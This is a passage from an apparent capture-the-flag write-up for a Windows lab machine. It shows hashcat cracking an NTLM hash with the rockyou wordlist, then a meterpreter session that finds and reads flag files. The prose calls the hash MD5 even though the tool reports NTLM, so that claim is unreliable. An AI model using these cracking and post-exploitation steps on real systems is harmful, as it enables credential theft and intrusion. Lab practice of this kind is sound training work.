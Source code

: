 ```cli
Applicable optimizers applied:
* Zero-Byte
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Hash
* Single-Salt
* Raw-Hash

ATTENTION! Pure (unoptimized) backend kernels selected.
Using pure kernels enables cracking longer passwords but for the price of drastically reduced performance.
If you want to switch to optimized backend kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 66 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

ffb43f0de35be4d9917ac0cc8ad57f8d:[redacted]       
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: NTLM
Hash.Target......: ffb43f0de35be4d9917ac0cc8ad57f8d
Time.Started.....: Sun Feb 28 22:59:23 2021, (3 secs)
Time.Estimated...: Sun Feb 28 22:59:26 2021, (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  4025.3 kH/s (0.41ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 10207232/14344385 (71.16%)
Rejected.........: 0/10207232 (0.00%)
Restore.Point....: 10199040/14344385 (71.10%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: alsinah -> almendrarayada

```
And so it turned out to be an MD5 hash which I cracked with hashcat and got the root password. Now to search the machine for flags.

```cli
 search -f flag*.txt
Found 3 results...
    c:\flag1.txt (24 bytes)
    c:\Users\Jon\Documents\flag3.txt (37 bytes)
    c:\Windows\System32\config\flag2.txt (34 bytes)
meterpreter > cat C:\\flag1.txt
flag[redacted]meterpreter > cat C:\\Windows\System32\config\flag2.txt
[-] stdapi_fs_stat: Operation failed: The system cannot find the file specified.
meterpreter > cat C:\\Windows\\System32\\config\\flag2.txt
flag[redacted]meterpreter > 
meterpreter > cat C:\\Users\\Jon\\Documents\\flag3.txt
flag[redacted]meterpreter > 

```
